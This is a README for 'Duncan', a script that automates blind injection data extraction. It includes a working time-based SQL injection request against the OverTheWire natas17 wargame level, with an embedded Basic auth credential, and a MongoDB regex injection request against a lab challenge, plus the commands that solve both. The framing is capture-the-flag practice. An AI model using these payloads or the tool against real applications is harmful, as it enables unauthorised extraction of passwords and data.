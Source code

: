 # Duncan
Duncan is a script which helps automate the extraction of data using blind injection techiques. It does not help you with finding these it just helps with some of the boring stuff

## Why?
I did a quite a few challenges and based around this and got bored writing similar scripts

## Installation
1. Git clone the repo
2. `pip install docopt`

## Usage
1. Capture a request using your method of choice (or just fabricate one in a text file). See below (Note: You need to put $$PAYLOAD$$ where you want the current extracted value inserting)
```
POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas17.natas.labs.overthewire.org/
Cookie: __cfduid=d861fc1b6c46e687e61e35690b5f416611520867281; __utma=176859643.1818706855.1520867282.1520867282.1520867282.1; __utmb=176859643.2.10.1520867282; __utmc=176859643; __utmz=176859643.1520867282.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utmt=1
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

username=natas18%22+and+password+like+binary+%27$$PAYLOAD$$%25%27+and+sleep%281%29+%23
```
2. Run duncan providing the url to use, the request file, a character set to use and an expression (you have access to the http response object as the r value and it is a requests.Response object) to determine the sucess or failure of the extraction. Optional you can give a data length to extract

```
$ ./duncan.py -r natas17.txt -u http://natas17.natas.labs.overthewire.org -c alpha -l 32 -e "r.elapsed.seconds >= 1"
```
The above command will solve the natas17 level from overthewire.org
```
./duncan.py -r mongo.txt -u http://ptl-b4178f0b-d147a1d2.libcurl.so -c "-0123456789abcdef" -l 20 -e "'search=admin' in r.text"
```
The above command will solve a mongodb injection challenge. The request file for this is below and was handcrafted in a text editor
```
GET /?search=admin%27+%26%26+this.password.match(/^$$PAYLOAD$$.*$/)%00 HTTP/1.1
Host: ptl-b4178f0b-d147a1d2.libcurl.so
```